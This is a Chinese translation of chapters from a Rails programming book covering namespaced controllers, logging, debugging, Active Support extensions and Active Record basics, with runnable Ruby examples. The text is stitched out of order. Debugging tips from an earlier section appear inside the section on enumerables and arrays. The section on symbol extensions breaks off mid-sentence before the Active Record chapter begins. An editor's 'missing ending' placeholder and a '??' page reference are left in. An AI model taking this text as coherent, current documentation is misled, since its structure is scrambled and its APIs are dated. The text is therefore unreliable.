Rails 使用一个简单的约定来实现这一点。如果一个传入请求的控制器名为（比如）`admin/book`，Rails 将在 `app/controllers/admin` 目录中查找名为 `book_controller` 的控制器。也就是说，控制器名称的最终部分将始终解析为名为 `name_controller.rb` 的文件，任何前导路径信息将用于从 `app/controllers` 目录开始导航子目录。

假设我们的应用程序有两组这样的控制器（比如 `admin/xxx` 和 `content/xxx`），并且两组都定义了一个 book 控制器。那么在 `app/controllers` 的 `admin` 和 `content` 子目录中会各有一个名为 `book_controller.rb` 的文件。这两个控制器文件都会定义一个名为 `BookController` 的类。如果 Rails 不采取进一步措施，这两个类将会冲突。

为了处理这个问题，Rails 假设 `app/controllers` 目录子目录中的控制器位于以子目录命名的 Ruby 模块中。因此，`admin` 子目录中的 book 控制器将声明为：

```ruby
class Admin::BookController < ApplicationController
  # ...
end
```

`content` 子目录中的 book 控制器将位于 `Content` 模块中。

```ruby
class Content::BookController < ApplicationController
  # ...
end
```

因此，这两个控制器在你的应用程序中保持独立。这些控制器的模板出现在 `app/views` 的子目录中。因此，对应于请求 `http://my.app/admin/book/edit/1234` 的视图模板将位于文件 `app/views/admin/book/edit.rhtml` 中。

你会高兴地知道，控制器生成器理解模块中控制器的概念，并允许你使用如下命令创建它们：

```bash
myapp> ruby script/generate controller Admin::Book action1 action2 ...
```

当我们开始生成 URL 以将各个操作连接起来时，这种控制器命名模式会产生影响。我们将从第 357 页开始讨论这个问题。

## 14.5 Rails 中的日志记录

Rails 内置了日志功能。或者更准确地说，Rails 向 Rails 应用程序中的所有代码暴露了一个 `Logger` 对象。

`Logger` 是一个简单的日志框架，随 Ruby 的新版本一起提供。（你可以通过在命令提示符下输入 `ri Logger` 或在 *Programming Ruby* [TFH05] 的标准库文档中查找来获取更多信息）。就我们的目的而言，了解我们可以生成 `warning`、`info`、`error` 和 `fatal` 级别的日志消息就足够了。然后我们可以决定（可能在环境文件中）将哪些级别的日志写入日志文件。

```ruby
logger.warn("我不认为这是个好主意")
logger.info("戴夫正试图做些坏事")
logger.error("现在他把它搞坏了")
logger.fatal("我放弃了")
```

在 Rails 应用程序中，这些消息被写入 `log` 目录中的一个文件。使用的文件取决于应用程序运行的环境。开发环境的应用程序将记录到 `log/development.log`，测试环境下的应用程序记录到 `test.log`，生产环境的应用程序记录到 `production.log`。

## 14.6 调试提示

Bug 会发生。即使在 Rails 应用程序中。本节提供一些跟踪它们的提示。

首要且最重要的是，编写测试！Rails 使编写单元测试和功能测试变得容易（正如我们在第 13 章 *任务 T：测试*，第 181 页中看到的那样）。使用它们，你会发现你的 bug 率会大幅下降。你也会减少 bug 突然出现在你一个月前编写的代码中的可能性。测试是廉价的保险。

测试告诉你某件事是否有效，并帮助你隔离有问题的代码。然而，有时原因并不立即显现。

如果问题出在模型中，你可以通过在 Web 应用程序上下文之外运行有问题的类来追踪它。

## 14.7 接下来要讲什么

缺失：结尾部分的更新

如果你想了解关于 Active Record 的信息——Rails 的对象关系映射层，你需要阅读接下来的两章。第一章涵盖基础知识，第二章则深入探讨一些更专业的主题。它们是篇幅很长的章节——Active Record 是 Rails 中最大的组件。

第 18 章 *Action Controller 与 Rails*，探讨了 Action Controller，它是 Rails 应用程序背后的大脑。这是处理请求和业务逻辑所在的地方。之后，第 19 章 *Action View*，描述了如何从应用程序级别的数据到达浏览器页面。

但是等等（正如人们常说的），还有更多！新型的基于网络的应用程序利用 JavaScript 和 `XMLHttpRequest` 来提供更具互动性的用户体验。第 20 章 *Web，2.0*，将告诉你如何让你的应用程序更加精彩。

Rails 不仅仅能与浏览器交流。第 21 章 *Action Mailer*，向你展示如何从 Rails 应用程序发送和接收电子邮件，而第 22 章 *Rails 上的 Web 服务*（第 493 页），描述了如何让你的应用程序允许他人通过 SOAP 和 XML-RPC 进行编程访问。

我们将两个最重要的章节留到最后。第 23 章 *保护你的 Rails 应用程序*，包含了至关重要的信息，如果你希望将应用程序暴露给广阔而复杂的世界后还能安然入睡的话。而第 24 章 *部署与生产*，包含了将 Rails 应用程序投入生产环境并随着用户群的增长进行扩展的所有细节。

## 第 15 章

## Active Support


Active Support 是一组由所有 Rails 组件共享的库。其中大部分内容旨在供 Rails 内部使用。然而，Active Support 也以有趣且有用的方式扩展了 Ruby 的一些内置类。在本节中，我们将快速列出其中最受欢迎的扩展。

## 15.1 通用扩展

正如我们将在查看 Ajax（第??页）时所看到的，有时能够将 Ruby 对象转换为中性形式是有用的，以便将它们发送到远程程序（通常是用户浏览器中运行的 JavaScript）。Rails 通过两个方法扩展 Ruby 对象：`to_json()` 和 `to_yaml()`。这些方法将对象转换为 JSON（JavaScript 对象表示法）和 YAML（与 Rails 配置和固件文件中使用的表示法相同）。

```ruby
# 为了演示，创建一个具有两个属性的 Ruby 结构体
Rating = Struct.new(:name, :ratings)
rating = Rating.new("Rails", [ 10, 10, 9.5, 10 ])

# 并用两种方式序列化该结构体的一个对象...
puts rating.to_json      #=> ["Rails", [10, 10, 9.5, 10]]
puts rating.to_yaml      #=> --- !ruby/struct:Rating
                         name: Rails
                         ratings:
                         - 10
                         - 10
                         - 9.5
                         - 10
```

此外，所有 Active Record 对象和所有哈希都支持 `to_xml()` 方法。我们在第 12.1 节“自动生成 XML”（第 178 页）中已经见过它。

为了更容易地判断某物是否没有内容，Rails 通过 `blank?` 方法扩展了所有 Ruby 对象。它对 `nil` 和 `false` 总是返回 `true`，对数字和 `true` 总是返回 `false`。对于所有其他对象，如果该对象为空，则返回 `true`。（对于字符串，它在测试之前会先去除首尾空白字符。）

```ruby
puts [ ].blank?            #=> true
puts { 1 => 2 }.blank?     #=> false
puts "   cat ".blank?      #=> false
puts "".blank?             #=> true
puts " ".blank?             #=> true
puts nil.blank?            #=> true
```

## 15.2 枚举与数组

因为我们的 Web 应用程序在处理集合上花费了大量时间，Rails 为 Ruby 的 `Enumerable` 混入添加了一些魔力。

`group_by()` 方法将一个集合划分为多个值集合。它通过为集合中的每个元素调用一次块，并使用块返回的值作为分区键来实现。结果是一个哈希，其中每个键都关联着一个来自原始集合、具有相同分区键的元素数组。例如，下面的代码按作者拆分一组文章。

```ruby
groups = posts.group_by {|post| post.author_id}
```

变量 `groups` 将引用一个哈希，其中键是作者 ID，值是由相应作者撰写的文章数组。

Rails 还为数组添加了一些便捷方法。

```ruby
puts [ "ant", "bat", "cat"].to_sentence  #=> "ant, bat, and cat"
puts [ "ant", "bat", "cat"].to_sentence(:connector => "and not forgetting")
                                        #=> "ant, bat, and not forgetting cat"
puts [ "ant", "bat", "cat"].to_sentence(:skip_last_comma => true)
                                        #=> "ant, bat and cat"

[1,2,3,4,5,6,7].in_groups_of(3) {|slice| p slice}
                                        #=> [1, 2, 3]
                                            [4, 5, 6]
                                            [7, nil, nil]
[1,2,3,4,5,6,7].in_groups_of(3, "X") {|slice| p slice}
                                        #=> [1, 2, 3]
                                            [4, 5, 6]
                                            [7, "X", "X"]
```

`scripts/console` 脚本让你能在 irb 会话中启动 Rails 应用程序的一部分，让你尝试各种方法。这是一个使用控制台更新产品价格的会话示例。

```text
depot> ruby script/console
Loading development environment.
irb(main):001:0> pr = Product.find(:first)
=> #<Product:0x248acd0 @attributes={"image_url"=>"/old_images/sk..."
irb(main):002:0> pr.price
=> 29.95
irb(main):003:0> pr.price = 34.95
=> 34.95
irb(main):004:0> pr.save
=> true
```

日志记录和跟踪是理解复杂应用程序动态的好方法。你会在开发日志文件中找到大量信息。当发生意外情况时，这很可能应该是你查看的第一个地方。检查 Web 服务器日志以发现异常也值得。如果你在开发中使用 WEBrick，这将在你发出 `script/server` 命令的控制台上滚动显示。

你可以使用上一节描述的 Logger 对象将你自己的消息添加到日志中。有时日志文件非常繁忙，很难找到你添加的消息。在这些情况下，如果你使用的是 WEBrick，写入 STDERR 会导致你的消息出现在 WEBrick 控制台上，与正常的 WEBrick 跟踪信息混合在一起。

如果页面显示错误信息，你可能想要转储从控制器传递过来的对象。`debug()` 辅助方法对此很有用。它能很好地格式化对象，并确保其内容是有效的 HTML。

```erb
<h3>Your Order</h3>

<%= debug(@order) %>

<div id="ordersummary">
  ...
</div>
```

最后，对于那些似乎就是不肯消失的问题，你可以动用大杀器，将调试器指向你正在运行的应用程序。这通常只对开发环境中的应用程序可用。

使用断点的步骤：

1. 在代码中希望应用程序首先停止的地方插入对方法 `breakpoint()` 的调用。如果你愿意，可以向此方法传递一个字符串——这将在后面成为识别消息。
2. 在一个方便的控制台中，导航到你的应用程序根目录并输入命令。
3. 使用浏览器，触发你的应用程序使其命中 `breakpoint()` 方法。当它命中时，运行 `breakpointer` 的控制台会活跃起来——你将进入一个 `irb` 会话，与正在运行的 Web 应用程序对话。你可以检查变量、设置值、添加其他断点，并通常享受乐趣。当你退出 `irb` 时，你的应用程序将继续运行。

```text
depot> ruby script/breakpointer
No connection to breakpoint service at druby://localhost:42531 (DRb::DRbConnError)
Tries to connect will be made every 2 seconds...
```

不要担心那个 *No connection* 消息——它只是意味着你的断点尚未被命中。

默认情况下，断点支持使用本地网络连接在你的应用程序和 `breakpointer` 客户端之间通信。当你运行 `breakpointer` 时，你或许可以使用 `-s` 选项来连接到另一台机器上的应用程序。

## 15.3 字符串扩展

Ruby 的初学者常常会惊讶地发现，使用类似 `string[2]` 的方式索引字符串返回的是一个整数，而不是一个单字符字符串。Rails 为字符串添加了一些辅助方法，使其行为更符合直觉。

```ruby
string = "Now is the time"
puts string.at(2)      #=> "w"
puts string.from(8)    #=> "he time"
puts string.to(8)      #=> "Now is th"
puts string.first      #=> "N"
puts string.first(3)   #=> "Now"
puts string.last       #=> "e"
puts string.last(4)    #=> "time"

puts string.starts_with?("No")  #=> true
puts string.ends_with?("ME")    #=> false

count = Hash.new(0)
string.each_char {|ch| count[ch] += 1}
p count                   #=> {" "=>3, "w"=>1, "m"=>1, "N"=>1, "o"=>1,
                           "e"=>2, "h"=>1, "s"=>1, "t"=>2, "i"=>2}
```

Active Support 为所有字符串添加了方法，以支持 Rails 自身处理名称从单数到复数、从小写到混合大小写等转换的方式。其中一些在普通应用中可能很有用。

```ruby
puts "cat".pluralize           #=> cats
puts "cats".pluralize           #=> cats
puts "erratum".pluralize        #=> errata
puts "cats".singularize         #=> cat
puts "errata".singularize       #=> erratum
puts "first_name".humanize      #=> "First name"
puts "now is the time".titleize #=> "Now Is The Time"
```

### 编写你的词形变化规则

Rails 自带了一套相当完善的英语单词复数构成规则，但它（目前）还不认识每一个不规则形式。例如，如果你正在编写一个农业应用，并且有一个 `geese` 表，Rails 可能无法自动识别：

```text
depot> script/console
Loading development environment.
>> "goose".pluralize
=> "gooses"
```

在我看来，*gooses* 是一个动词，而不是复数名词。

就像 Rails 中的其他一切一样，如果你不喜欢默认值，你可以更改它们。而更改自动词形变化是很容易的。在 `config` 目录下的 `environment.rb` 文件底部，你会发现一个注释掉的部分，用于配置 `Inflector` 模块。这允许我们定义构成单词复数和单数形式的新规则。我们可以告诉它：

- 给定单数形式，如何构成一个单词或一类单词的复数形式。
- 给定复数形式，如何构成一个单词或一类单词的单数形式。
- 哪些单词有不规则复数。
- 哪些单词没有复数。

我们的 `goose/geese` 对是一个不规则复数，因此我们可以使用以下方式告诉词形变化器：

```ruby
Inflector.inflections do |inflect|
  inflect.irregular "goose", "geese"
end
```

现在 Rails 能正确识别了。

```text
depot> script/console
Loading development environment.
>> "goose".pluralize           #=> "geese"
>> "geese".singularize         #=> "goose"
```

也许令人惊讶的是，定义一个不规则复数实际上定义了所有以给定模式结尾的单词的复数。

```text
>> "canadagoose".pluralize      #=> "canadageese"
>> "wildgeese".singularize      #=> "wildgoose"
```

对于成系列的复数，请定义基于模式的单数和复数构成规则。例如，*father-in-law* 的复数是 *fathers-in-law*，*mother-in-law* 变成 *mothers-in-law*，依此类推。你可以使用正则表达式定义映射来告诉 Rails 这一点。在这种情况下，你必须同时告诉它如何从单数形式构成复数形式，反之亦然。

```ruby
Inflector.inflections do |inflect|
  inflect.plural(/-in-law$/, "s-in-law")
  inflect.singular(/s-in-law$/, "-in-law")
end

>> "sister-in-law".pluralize      #=> "sisters-in-law"
>> "brothers-in-law".singularize  #=> "brother-in-law"
```

有些单词是不可数的（就像我程序里的 bug）。你可以使用 `uncountable()` 方法告诉词形变化器。

```ruby
Inflector.inflections do |inflect|
  inflect.uncountable("air", "information", "water")
end

>> "water".pluralize          #=> "water"
>> "water".singularize        #=> "water"
```

## 15.4 数字扩展

整数获得了两个实例方法 `even?` 和 `odd?`。你还可以使用 `ordinalize()` 获取整数的序数形式。

```ruby
puts 3.ordinalize    #=> "3rd"
puts 321.ordinalize  #=> "321st"
```

所有数字对象都获得了一组缩放方法。支持单数和复数形式。

```ruby
puts 20.bytes       #=> 20
puts 20.kilobytes   #=> 20480
puts 20.megabytes   #=> 20971520
puts 20.gigabytes   #=> 21474836480
puts 20.terabytes   #=> 21990232555520
puts 20.petabytes   #=> 22517998136852480
puts 1.exabyte      #=> 1152921504606846976
```

还有基于时间的缩放方法。这些方法将它们的调用者转换为等效的秒数。`months()` 和 `years()` 方法是近似的——月份被假定为 30 天，年被假定为 365 天。然而，Time 类已被扩展了提供准确相对日期的方法（参见紧接此节之后的章节描述）。同样，支持单数和复数形式。

```ruby
puts 20.seconds     #=> 20
puts 20.minutes     #=> 1200
puts 20.hours       #=> 72000
puts 20.days        #=> 1728000
puts 20.weeks       #=> 12096000
puts 20.fortnights  #=> 24192000
puts 20.months      #=> 51840000
puts 20.years       #=> 630720000
```

你还可以使用 `ago()` 和 `from_now()` 方法（或它们的别名 `until()` 和 `since()`）来计算相对于某个时间（默认为 `Time.now`）的时间。

```ruby
puts Time.now           #=> Thu May 18 23:29:14 CDT 2006
puts 20.minutes.ago     #=> Thu May 18 23:09:14 CDT 2006
puts 20.hours.from_now  #=> Fri May 19 19:29:14 CDT 2006
puts 20.weeks.from_now  #=> Thu Oct 05 23:29:14 CDT 2006
puts 20.months.ago      #=> Sat Sep 25 23:29:16 CDT 2004
puts 20.minutes.until("2006-12-25 12:00:00".to_time)
                       #=> Mon Dec 25 11:40:00 UTC 2006
puts 20.minutes.since("2006-12-25 12:00:00".to_time)
                       #=> Mon Dec 25 12:20:00 UTC 2006
```

这有多酷？而且它还有更酷的....

## 15.5 时间和日期扩展


`Time` 类获得了许多有用的方法，帮助你计算相对时间和日期，并格式化时间字符串。

```ruby
now = Time.now
puts now                    #=> Thu May 18 23:36:10 CDT 2006
puts now.to_date            #=> 2006-05-18
puts now.to_s               #=> Thu May 18 23:36:10 CDT 2006
puts now.to_s(:short)       #=> 18 May 23:36

puts now.to_s(:long)        #=> May 18, 2006 23:36
puts now.to_s(:db)          #=> 2006-05-18 23:36:10
puts now.to_s(:rfc822)      #=> Thu, 18 May 2006 23:36:10 -0500
puts now.ago(3600)          #=> Thu May 18 22:36:10 CDT 2006
puts now.at_beginning_of_day #=> Thu May 18 00:00:00 CDT 2006

puts now.at_beginning_of_month  #=> Mon May 01 00:00:00 CDT 2006
puts now.at_beginning_of_week   #=> Mon May 15 00:00:00 CDT 2006
puts now.beginning_of_quarter   #=> Sat Apr 01 00:00:00 CST 2006
puts now.at_beginning_of_year   #=> Sun Jan 01 00:00:00 CST 2006
puts now.at_midnight            #=> Thu May 18 00:00:00 CDT 2006

puts now.change(:hour => 13)    #=> Thu May 18 13:00:00 CDT 2006
puts now.last_month             #=> Tue Apr 18 23:36:10 CDT 2006
puts now.last_year              #=> Wed May 18 23:36:10 CDT 2005
puts now.midnight               #=> Thu May 18 00:00:00 CDT 2006
puts now.monday                 #=> Mon May 15 00:00:00 CDT 2006

puts now.months_ago(2)          #=> Sat Mar 18 23:36:10 CST 2006
puts now.months_since(2)        #=> Tue Jul 18 23:36:10 CDT 2006
puts now.next_week              #=> Mon May 22 00:00:00 CDT 2006
puts now.next_year              #=> Fri May 18 23:36:10 CDT 2007
puts now.seconds_since_midnight #=> 84970.423472

puts now.since(7200)            #=> Fri May 19 01:36:10 CDT 2006
puts now.tomorrow               #=> Fri May 19 23:36:10 CDT 2006
puts now.years_ago(2)           #=> Tue May 18 23:36:10 CDT 2004
puts now.years_since(2)         #=> Sun May 18 23:36:10 CDT 2008
puts now.yesterday              #=> Wed May 17 23:36:10 CDT 2006
puts now.advance(:days => 30)          #=> Sat Jun 17 23:36:10 CDT 2006
puts Time.days_in_month(2)             #=> 28
puts Time.days_in_month(2, 2000)       #=> 29
```

`Date` 对象也获得了一些有用的方法。

```ruby
date = Date.today
puts date.to_s                         #=> "2006-05-18"
puts date.to_time                      #=> Thu May 18 00:00:00 CDT 2006
puts date.to_s(:short)                 #=> "18 May"
puts date.to_s(:long)                  #=> "May 18, 2006"
puts date.to_s(:db)                    #=> "2006-05-18"
```

最后一种将日期转换为字符串，该字符串可被你应用当前使用的默认数据库接受。你可能已经注意到，`Time` 类也有类似的扩展，用于以数据库特定的格式格式化日期时间字段。

`String` 类也添加了两个有用的时间相关方法。`to_time()` 和 `to_date()` 方法分别返回 `Time` 和 `Date` 对象。

```ruby
puts "2006-12-25 12:34:56".to_time     #=> Mon Dec 25 12:34:56 UTC 2006
puts "2006-12-25 12:34:56".to_date      #=> 2006-12-25
```

Active Support 还包含一个 `TimeZone` 类。`TimeZone` 对象封装了时区的名称和偏移量。该类包含一个世界时区的列表。详情请参阅 Active Support RDoc。

## 15.6 Ruby 符号扩展

> （本节描述了 Ruby 的一个高级特性，在第一次阅读时可以放心跳过……）

你经常想向迭代器传递一个块，而这个块所做的全部事情就是对其参数调用一个方法。我们在之前的 `group_by` 示例中就这样做了。

```ruby
groups = posts.group_by {|post| post.author_id}
```

Rails 为此提供了一个简写。我们可以将上述代码写成：

```ruby
groups = posts.group_by(&:author_id)
```

这个魔法是如何工作的？它依赖于 `&` 参数传递符号期望一个 `Proc` 对象这一事实。如果没有得到 `Proc`，Ruby 会尝试通过调用其 `to_proc()` 方法来转换它实际得到的内容。这里

# 第 16 章：Active Record 基础

Active Record 是 Rails 提供的对象关系映射（ORM）层。本章我们将介绍 Active Record 的基础知识——连接数据库、映射表以及操作数据。更高级的内容将在下一章深入探讨。

Active Record 严格遵循标准的 ORM 模型：表映射到类，行映射到对象，列映射到对象属性。它与大多数其他 ORM 库的不同之处在于其配置方式。通过使用一套合理的默认值，Active Record 最大限度地减少了开发者需要执行的配置工作量。为了说明这一点，这里有一个使用 Active Record 封装 MySQL 数据库中订单表的程序。在找到特定 id 的订单后，它修改购买者的姓名并将结果保存回数据库，更新原始行。¹

```ruby
require "rubygems"
require_gem "activerecord"

ActiveRecord::Base.establish_connection(:adapter => "mysql",
           :host => "localhost", :database => "railsdb")

class Order < ActiveRecord::Base
end

order = Order.find(123)
order.name = "Dave Thomas"
order.save
```

> ¹本章中的示例连接到我们编写本书时所用机器上的各种 MySQL 数据库。你需要调整连接参数，才能使它们适用于你的数据库。我们将在第 16.4 节“连接数据库”（第 259 页）中讨论如何连接数据库。

就是这样——在这种情况下，除了数据库连接信息外，不需要任何其他配置信息。Active Record 不知何故就弄清楚了我们需要什么，并且正确完成了。让我们看看这是如何工作的。

## 16.1 表和类

当你创建 `ActiveRecord::Base` 的子类时，你正在创建一个封装数据库表的东西。默认情况下，Active Record 假设表的名称是类名的复数形式。如果类名包含多个大写单词，则假定表名在这些单词之间有下划线。一些不规则的复数形式会被处理。

| 类名 | 表名 | 类名 | 表名 |
| :--- | :--- | :--- | :--- |
| `Order` | `orders` | `LineItem` | `line_items` |
| `TaxAgency` | `tax_agencies` | `Person` | `people` |
| `Batch` | `batches` | `Datum` | `data` |
| `Diagnosis` | `diagnoses` | `Quantity` | `quantities` |

这些规则反映了 DHH 的理念：类名应该是单数，而表名应该是复数。如果你不喜欢这种行为，可以通过在配置中（`config` 目录下的 `environment.rb` 文件）设置一个全局标志来禁用它。

```ruby
ActiveRecord::Base.pluralize_table_names = false
```

用于推导表名复数形式的算法相当简单。它在大多数常见情况下都有效，但如果你有一个名为 `Sheep` 的类，它会努力去查找一个名为 `sheeps` 的表。如果表名和类名相关的假设在你使用遗留模式时失效，表名可能会迫使你在代码中使用奇怪或不受欢迎的类名。因此，Active Record 允许你使用 `set_table_name` 指令来覆盖默认的表名生成。

```ruby
class Sheep < ActiveRecord::Base
  set_table_name "sheep"                # 不是 "sheeps"
end
```

> 单词 schema 的含义在业界有所不同。我们使用它来表示应用程序或相关应用程序套件中表的定义及其相互关系。基本上，模式就是你的代码所需的数据库结构。

> **David 说...**
>
> **我的属性在哪里？**
>
> 数据库管理员（DBA）作为与程序员分开的角色这一观念，导致一些开发者将代码和模式之间视为严格的界限。Active Record 模糊了这一区别，没有比在模型中缺乏显式属性定义更明显的地方了。
>
> 但不要担心。实践表明，无论你是查看数据库模式、单独的 XML 映射文件，还是模型中的内联属性，效果差异不大。这种组合视图类似于模型-视图-控制模式中已经发生的分离——只是规模更小。
>
> 一旦将表模式视为模型定义一部分的不适感消失，你将开始意识到保持 DRY（不要重复自己）的好处。当你需要向模型添加属性时，你只需更改模式（自动保留你的数据（使用 `alter` 而不是 `drop/create`）），然后重新加载应用程序。
>
> 将“构建”步骤从模式演进中移除，使其与其余代码一样敏捷。从一个小模式开始，根据需要扩展和修改变得容易得多。

```ruby
class Order < ActiveRecord::Base
  set_table_name "ord_rev99_x"    # 封装一个遗留表...
end
```

## 16.2 列和属性

Active Record 对象对应于数据库表中的行。这些对象具有对应于表中列的属性。你可能注意到，我们定义的 `Order` 类没有提及 orders 表中的任何列。这是因为 Active Record 在运行时动态确定它们。Active Record 通过内省数据库中的模式来配置封装表的类。³

> ³这并不完全正确，因为模型可能具有不属于模式的属性。我们将在下一章第 339 页开始更深入地讨论属性。

我们的 orders 表可能是用以下 SQL 创建的。

```sql
create table orders (
    id            int         not null auto_increment,
    name          varchar(100)  not null,
    email         varchar(255)  not null,
    address       text          not null,
    pay_type      char(10)      not null,
    shipped_at    datetime      null,
    primary key (id)
);
```

我们可以创建一个封装此表的 Active Record 类。

```ruby
require 'rubygems'
require_gem 'activerecord'

### 连接代码已省略...

class Order < ActiveRecord::Base
end
```

定义 `Order` 类后，我们可以询问它所包含的属性（列）的信息。下面的代码使用 `columns()` 方法，该方法返回一个 `Column` 对象数组。从中，我们只显示 orders 表中每个列的名称，并通过在哈希中查找来转储一个特定列 `shipped_at` 的详细信息。（此代码使用 Ruby pp 库来很好地格式化对象。）

```ruby
require 'pp'

pp Order.columns.map { |col| col.name }
pp Order.columns_hash['shipped_at']
```

运行此代码时，我们得到以下输出。

```text
["id", "name", "email", "address", "pay_type", "shipped_at"]
#<ActiveRecord::ConnectionAdapters::Column:0x10e4a50
  @default=nil,
  @limit=nil,
  @name="shipped_at",
  @type=:datetime>
```

注意 Active Record 确定了每个列的类型。在示例中，它已确定 `shipped_at` 列在数据库中是 datetime 类型。它将把此列的值保存在 Ruby `Time` 对象中。我们可以通过将时间的字符串表示写入此属性并取回内容来验证这一点。你会发现它们以 Ruby `Time` 的形式返回。

```ruby
order = Order.new
order.shipped_at = "2005-03-04 12:34"
pp order.shipped_at.class
pp order.shipped_at
```

这产生

```text
Time
Fri Mar 04 12:34:00 CST 2005
```

图 16.1 显示了 SQL 类型与其 Ruby 表示之间的映射。通常这种映射是直观的。唯一潜在的问题出现在 `decimal` 列上。模式设计者使用 decimal 列来存储具有固定小数位数的数字——decimal 列旨在精确。Active Record 将其映射到 `Float` 类的对象。虽然这可能适用于大多数应用程序，但浮点数并不精确，如果你对此类型的属性执行一系列操作，可能会发生舍入错误。你可能希望改用整数列，并以分、便士等为单位存储货币。或者，你可以使用聚合（从第 312 页开始描述）从单独的数据库列（美元和美分、英镑和便士等）构建 `Money` 对象。

| SQL 类型 | Ruby 类 | SQL 类型 | Ruby 类 |
| :--- | :--- | :--- | :--- |
| `int, integer` | `Fixnum` | `float, double` | `Float` |
| `decimal, numeric` | `Float` | `char, varchar, string` | `String` |
| `interval, date` | `Date` | `datetime, time` | `Time` |
| `clob, blob, text` | `String` | `boolean` | 见正文... |

**图 16.1：SQL 类型到 Ruby 类型的映射**

### 访问属性

如果模型对象有一个名为 `balance` 的属性，你可以使用索引运算符访问该属性的值，传递一个字符串或一个符号。这里我们将使用符号。

```ruby
account[:balance]          #=> 返回当前值
account[:balance] = 0.0    #=> 设置 balance 的值
```

### 覆盖模型属性

以下示例展示了使用访问器（accessor）来获取模型属性的好处。我们的账户模型将在有人尝试设置低于最小值的余额时立即引发异常。

```ruby
class Account < ActiveRecord::Base
  def balance=(value)
    raise BalanceTooLow if value < MINIMUM_LEVEL
    self[:balance] = value
  end
end
```

然而，这在常规代码中已被弃用，因为它会大大减少未来更改属性底层实现时的选择余地。相反，你应该使用 Ruby 访问器方法来访问值或模型属性。

```ruby
account.balance        #=> 返回当前值
account.balance = 0.0  #=> 设置 balance 的值
```


使用这两种技术返回的值，将由 Active Record 尽可能转换为适当的 Ruby 类型（因此，例如，如果数据库列是时间戳，将返回 `Time` 对象）。如果你想获取属性的原始值，请在方法形式的属性名后附加 `_before_type_cast`，如下列代码所示。

```ruby
account.balance_before_type_cast       #=> "123.4"，一个字符串
account.release_date_before_type_cast  #=> "20050301"
```

最后，在模型自身的代码内部，你可以使用 `read_attribute()` 和 `write_attribute()` 私有方法。它们接受属性名作为字符串参数。

### 布尔属性

一些数据库支持布尔列类型，另一些则不支持。这使得 Active Record 难以抽象布尔值。例如，如果底层数据库没有布尔类型，一些开发者使用包含 “t” 或 “f” 的 `char(1)` 列来表示真或假。其他人使用整数列，其中 0 为假，1 为真。即使数据库直接支持布尔类型（如 MySQL 及其 bool 列类型），它们在内部也可能只存储为 0 或 1。

问题在于，在 Ruby 中，数字 0 和字符串 “f” 在条件语句中都被解释为真值。<sup>4</sup> 这意味着如果你直接使用列的值，当你本意是假时，你的代码会将该列解释为真。

```ruby
### 不要这样做
user = Users.find_by_name("Dave")
if user.superuser
  grant_privileges
end
```

要在条件中查询列，必须在列名后附加一个问号。

```ruby
### 而是这样做
user = Users.find_by_name("Dave")
if user.superuser?
  grant_privileges
end
```

这种形式的属性访问器查看列的值。只有当它为数字零；字符串 “0”、 “f”、 “false” 或 “”（空字符串）之一；nil；或常量 false 时，才被解释为假。否则，它被解释为真。

如果你使用旧模式或使用非英语语言的数据库，上一段中关于真值的定义可能不成立。在这些情况下，你可以覆盖谓词方法的内置定义。例如，在荷兰语中，该字段可能包含 J 或 N（代表 Ja 或 Nee）。在这种情况下，你可以编写：

```ruby
class User < ActiveRecord::Base
  def superuser?
    self.superuser == 'J'
  end
  # ...
end
```

> <sup>4</sup> Ruby 对真值有一个简单的定义。任何不是 nil 或常量 false 的值都是真。

### 存储结构化数据

有时将包含任意 Ruby 对象的属性直接存储到数据库表中是很方便的。Active Record 支持的一种方式是将 Ruby 对象序列化为字符串（YAML 格式），并将该字符串存储在与属性对应的数据库列中。在 schema 中，此列必须定义为 text 类型。

因为 Active Record 通常会将字符或文本列映射为普通的 Ruby 字符串，所以如果你想利用此功能，需要告诉 Active Record 使用序列化。例如，我们可能想要记录客户的最后五次购买。我们将创建一个包含 text 列的表来保存此信息。

```sql
-- Download e1/ar/create.sql

create table purchases (
    id          int           not null auto_increment,
    name        varchar(100)  not null,
    last_five   text,
    primary key (id)
);
```

在包装此表的 Active Record 类中，我们将使用 `serialize()` 声明来告诉 Active Record 将对象编组进和出此列。

```ruby
### Download e1/ar/dump_serialize_table.rb

class Purchase < ActiveRecord::Base
  serialize :last_five
  # ...
end
```

当我们创建新的 Purchase 对象时，可以将任何 Ruby 对象分配给 `last_five` 列。在这种情况下，我们将其设置为字符串数组。

```ruby
### Download e1/ar/dump_serialize_table.rb

purchase = Purchase.new
purchase.name = "Dave Thomas"
purchase.last_five = ['shoes', 'shirt', 'socks', 'ski mask', 'shorts']
purchase.save
```

当我们稍后读取它时，属性被设置回数组。

```ruby
### Download e1/ar/dump_serialize_table.rb

purchase = Purchase.find_by_name("Dave Thomas")
pp purchase.last_five
pp purchase.last_five[3]
```

此代码输出：

```
["shoes", "shirt", "socks", "ski mask", "shorts"]
"ski mask"
```

尽管功能强大且方便，但如果你需要能在 Ruby 应用程序之外使用序列化列中的信息，这种方法就有问题了。除非该应用程序理解 YAML 格式，否则列内容对其将是不透明的。特别是，在 SQL 查询中使用这些列内部的结构将很困难。你可能需要考虑使用对象聚合（在第 17.2 节，聚合，第 312 页中描述）来实现类似的效果。

### 主键和 ID

你可能已经注意到，我们的示例数据库表都定义了一个名为 `id` 的整数列作为它们的主键。这是 Active Record 的惯例。

“但是等等！”你可能会问。“我的订单表的主键不应该是订单号或其他有意义的列吗？为什么使用像 `id` 这样的人工主键？”

原因主要是实际原因——外部数据的格式可能会随时间变化。例如，你可能认为书籍的 ISBN 会是书籍表中一个很好的主键。毕竟，ISBN 是唯一的。但在撰写本书时，美国出版业正准备进行一项重大变革，所有 ISBN 都将增加额外的数字。

如果我们曾经使用 ISBN 作为书籍表的主键，我们就必须逐一更新每一行以反映这一变化。但那样我们就会遇到另一个问题。数据库中会有其他表通过主键引用书籍表中的行。除非我们首先逐一更新所有这些引用，否则无法更改书籍表中的键。而这将涉及删除外键约束、更新表、更新书籍表，最后重新建立约束。总而言之，相当麻烦。

如果我们使用自己的内部值作为主键，事情就会好办得多。没有第三方可以随意告诉我们改变什么——我们控制着自己的键空间。并且如果像 ISBN 这样的东西确实需要更改，它可以在不影响数据库中任何现有关系的情况下更改。实际上，我们已经将行的绑定与这些行中数据的外部表示解耦了。

现在，并没有规定我们不能将 `id` 值暴露给最终用户。在订单表中，我们可以在外部称之为订单 ID，并将其打印在所有文件上。但这样做要小心——随时可能有监管机构介入，强制要求订单 ID 必须遵循外部强加的格式，那你就会又回到起点。

